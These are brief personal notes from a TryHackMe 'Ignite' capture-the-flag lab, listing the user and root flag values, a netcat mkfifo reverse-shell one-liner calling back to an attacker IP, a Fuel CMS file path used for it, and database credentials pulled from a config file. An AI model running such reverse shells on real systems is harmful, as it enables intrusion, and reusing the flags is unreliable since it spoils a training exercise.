 #TryHackMe Ignite

>Saikat Karmakar | Feb 13:2021

--------------------------------------------------------------------------

# Task 1 
1. User.txt
```
6470e394cbf6dab6a91682cc8585059b
```
2. Root.txt
```
b9bbcb33e11b80be759c4e844862482d
```


--
-----------
***Notes***
-----------

/fuel/application/views/home.php

>revshell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.23.120 1234 >/tmp/f
```

/var/www/html/fuel/application/config/databases.php

'username' => 'root',
'password' => 'mememe',

--------------------------------------------------------------------------